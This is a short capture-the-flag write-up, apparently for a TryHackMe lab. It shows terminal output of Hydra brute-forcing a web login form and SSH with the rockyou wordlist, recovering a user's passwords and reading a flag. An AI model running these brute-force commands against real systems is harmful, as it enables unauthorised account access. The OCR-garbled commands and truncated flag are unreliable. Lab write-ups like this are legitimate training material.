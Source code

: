 ## Objetivo 
Learn about and use Hydra, a fast network logon cracker, to bruteforce and obtain a website's credentials.

## Solución 
hani06@DESKTOP-4NE4RTQ:~$ hydra -l molly -P rockyou.txt 10.10.27.62 http-post-form "/login:username="USER^&password=^PASS^: incorrect" lydra v8.8 (c) 2019 by van Hauser/THC Please do not use in military or secret service organizations, or for illegal purposes.
lydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-19 02:35:35
WARNING] Restorefile (you have 10 seconds to abort... (use option I to skip waiting)) from a previous session found, to prevent overwritin 1. ./hydra. restore
DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (1:1/p:14344398), -896525 tries per task
DATA] attacking http-post-form://10.10.27.62:80/login: username="USER &password="PASS^: incorrect
80][http-post-form] host: 10.10.27.62 login: molly password: sunshine
STATUS] attack finished for 10.10.27.62 (valid pair found)
of 1 target successfully completed, 1 valid password found


![[Pasted image 20241019145842.png]]
![[Pasted image 20241019145825.png]]

hani06@DESKTOP-4NE4RTQ:~$ hydra -l molly P rockyou.txt 10.10.27.62 ssh
Hydra v8.8 (c) 2019 by van Hauser/THC Please do not use in military or secret service orga
-
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-19 02:40:40 [WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to r [DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (1:1/p: 14344398), [DATA] attacking ssh://10.10.27.62/
[22][ssh] host: 10.10.27.62 login: molly password: butterfly
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end. [

hani06@DESKTOP-4NE4RTQ:~$ ssh molly@10.10.27.62 nolly@10.10.27.62's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-1092-aws x86_6
* Documentation:
* Management:
* Support:
https://help.ubuntu.com
https://landscape.canonical.com https://ubuntu.com/advantage
55 packages can be updated.
32 updates are security updates.

molly@ip-10.10.27.62:~$ ls
flag2.txt
molly@ip-10.10.27.62:~$ cat flag2.txt THM{c8eeb0468 febbadea859baeb33b2541b}
## Notas
